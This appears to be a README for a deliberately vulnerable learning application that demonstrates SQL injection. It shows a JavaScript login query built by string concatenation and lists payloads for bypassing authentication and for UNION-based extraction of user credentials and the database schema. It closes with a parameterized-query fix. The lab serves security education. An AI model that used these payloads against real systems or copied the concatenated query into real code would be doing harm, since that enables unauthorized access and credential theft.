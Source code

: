 ### Why This Application is Vulnerable

The vulnerable endpoints use direct string concatenation to build SQL queries:

```javascript
// VULNERABLE: Direct string concatenation
const query = `SELECT * FROM users WHERE username = '${username}' AND password = '${password}'`;
```

This allows attackers to inject malicious SQL code that gets executed by the database.

## 🔓 How to Exploit (For Learning)

### 1. Authentication Bypass

**Vulnerable Login Form:**
- Username: `admin' --`
- Password: (leave empty)

This payload comments out the password check, allowing login as admin.

### 2. Union-Based Data Extraction

**Search Form Payloads:**
- Extract all users: `' OR '1'='1`
- Union attack: `' UNION SELECT id,username,email,role,password FROM users --`
- Extract admin users: `' OR role='admin' --`
- Database schema: `' UNION SELECT name,name,name,name,name FROM sqlite_master WHERE type='table' --`

### 3. Advanced Techniques

**Login Form Advanced Payloads:**
- Always true: `' OR '1'='1`
- Extract all data: `' UNION SELECT 1,username,email,role,password FROM users --`
- Conditional extraction: `' UNION SELECT 1,2,3,4,5 FROM users WHERE role='admin' --`

### 💡 Exploitation Hints

1. **Start with simple payloads** like `' OR '1'='1`
2. **Use UNION attacks** to extract data from other tables
3. **Comment out remaining query** with `--` or `#`
4. **Test different injection points** (username, password, search)
5. **Compare vulnerable vs safe implementations**

## 🛡️ How to Fix (In This Application)

### 1. Use Parameterized Queries (Prepared Statements)

```javascript
// SAFE: Parameterized query
const query = `SELECT * FROM users WHERE username = ? AND password = ?`;
db.all(query, [username, password], callback);
```
